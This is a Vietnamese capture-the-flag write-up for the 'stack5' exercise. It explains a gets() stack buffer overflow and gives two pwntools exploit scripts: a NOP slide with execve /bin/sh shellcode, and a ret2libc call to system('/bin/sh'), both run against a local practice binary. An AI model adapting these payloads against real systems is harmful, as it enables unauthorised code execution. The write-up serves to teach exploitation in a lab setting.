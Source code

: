 # stack5

## Description

Chạy thử chương trình, nhập input vào thì ko có gì diễn ra. Mình đá thử qua hàm main thì thấy nó khá là ngắn.

```ASM (intel syntax)
   0x080483c4 <+0>:     push   ebp
   0x080483c5 <+1>:     mov    ebp,esp
   0x080483c7 <+3>:     and    esp,0xfffffff0
   0x080483ca <+6>:     sub    esp,0x50
   0x080483cd <+9>:     lea    eax,[esp+0x10]
   0x080483d1 <+13>:    mov    DWORD PTR [esp],eax
   0x080483d4 <+16>:    call   0x80482e8 <gets@plt>
   0x080483d9 <+21>:    leave  
   0x080483da <+22>:    ret
```

mình đoán bài này sẽ phải chèn shellcode vào chương trình. Dùng vmmap check lại xem phần vùng mình ghi dữ liêu có quyền chạy code hay không.

![vmmap](vmmap.png)

ta thấy phân vùng stack có quyền x. Dùng shellcraft để tạo shellcode. Tiếp theo là tìm padding, dùng cyclic và pwndbg để tìm ra giống những bài trước. Padding 76 bytes. Bây giờ ta cần phải control eip. Khi chúng ta kiểm soát eip, chúng ta cần hướng nó đến ngăn xếp nơi chúng ta có thể đặt mã của riêng mình. Đỉnh của ngăn xếp được trỏ tới bởi SP (hoặc con trỏ ngăn xếp) được gọi là esp trong các máy 32-bit. Đối với mình, esp được đặt tại `0xffffd250`(ASLR off) và bạn có thể kiểm tra vị trí của esp trong gdb. Nếu ta muốn jump đến shellcode của mình, ta cần jump đến giữa ngăn xếp (thay vì trên cùng nơi SP trỏ đến), vì vậy ta thường thêm một phần bù vào vị trí esp trong phần mã khai thác . Mình sử dụng offset là `100`. Có một lệnh trong hợp ngữ được là NOP, là 0x90 trong hệ thập lục phân, và NOP là bộ chứa khoảng trắng chuyển eip đến không gian tiếp theo trong bộ nhớ. Nếu chúng ta tạo một "bãi đáp" NOP khổng lồ và hướng eip về phía giữa ngăn xếp, tỷ lệ eip sẽ hạ cánh trên NOP của chúng ta và các NOP sẽ chuyển eip xuống để cuối vào shellcode của chúng ta. Đây thường được gọi là NOP slide, bởi vì eip sẽ hạ cánh trong các NOP và trượt xuống shellcode.

## Solution

### inject shellcode

```py
#!/usr/bin/python3
from pwn import *

padding = cyclic(cyclic_find('taaa'))

eip = p32(0xffffd250+100) # esp + offset

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode


p = process('./stack5')
p.sendline(payload)
p.interactive()
```

![run](run.png)

### system()

```python
from pwn import *

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = cyclic(cyclic_find('taaa')) #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)
p = process('./stack5')
p.sendline(payload)
p.interactive()
```

